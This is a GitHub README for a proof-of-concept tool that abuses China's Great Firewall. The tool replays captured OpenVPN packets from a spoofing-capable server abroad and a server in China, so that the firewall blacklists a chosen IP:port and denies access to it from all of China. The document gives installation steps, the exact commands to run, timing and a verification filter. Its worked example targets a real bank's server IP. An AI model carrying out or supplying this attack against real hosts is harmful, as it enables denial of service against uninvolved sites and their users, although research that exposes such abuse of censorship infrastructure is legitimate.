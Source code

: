 gfw-arbitrary-reset
===================

A Proof of Concept for arbitrarily blacklisting a pair of IP:Port by replaying OpenVPN traffic across GFW. With two servers, machine A located in mainland China, and machine B outside China with permission for IP spoofing, one can perform a regional (China) Denial of Service without sending single packet to target host. 

Last tested effective on Dec. 31, 2012. 

### Installing Dependencies

	# Python 2.6 or 2.7 should be fine. 
	
	pip install tornado jsonrpclib
	pip install http://gs.ccp.li/scapy-7621f33286b9.zip
	pip install git+git://github.com/joshmarshall/tornadorpc.git
	
	# In case of Github failure: 
	#  pip install http://gs.ccp.li/tornadorpc-fda3e0e.zip
	# In case of PyPI failure:
	#  pip -i http://pypi.tuna.tsinghua.edu.cn/simple/ [package]

### How

Supposingly, we have the following two servers with ROOT privilege, and our target is safe.bankofamerica.com (171.159.228.172:443). 

`Machine A (123.58.180.8) => Server in China`  
`Machine B (173.223.104.110)  => Server in US. Must be able to spoof IP address.`

	# ssh root@machine-A  # 123.58.180.8
	python rpcserver.py 15001
	
	# ssh root@machine-B  # 173.223.104.110
	python rpcserver.py 15001
	
	# local desktop
	# Usage:  replay.py <machine A IP> <machine A port> <machine B IP> <machine B port> <target IP> <target port>
	
	python replay.py 123.58.180.8 15001 173.223.104.110 15001 171.159.228.172 443


There're 680 packets in `openvpn-tcp.dump`. It takes roughly ten minutes at the speed of 1 pkt/s. Running replay.py once should be sufficient, but more certainly doens't hurt.

Allow 24 hours maximum for blacklisting to become effective. Then any TCP connection from China to our target host (171.159.228.172:443) should be automatically reset by GFW. 

### Disclaimer
The purpose of this project is to show how a massive censorship firewall can be exploited to disrupt Internet. This is essentially a hacker tool; please be a responsible person while using it at your own risk. 

### Notes
To monitor traffic with Wireshark on machine A, use filter:

	ip.addr == ${TARGET_IP} and tcp.dstport != 15001 and tcp.srcport != 15001
Should see bidirectional traffic if scripts are working. 
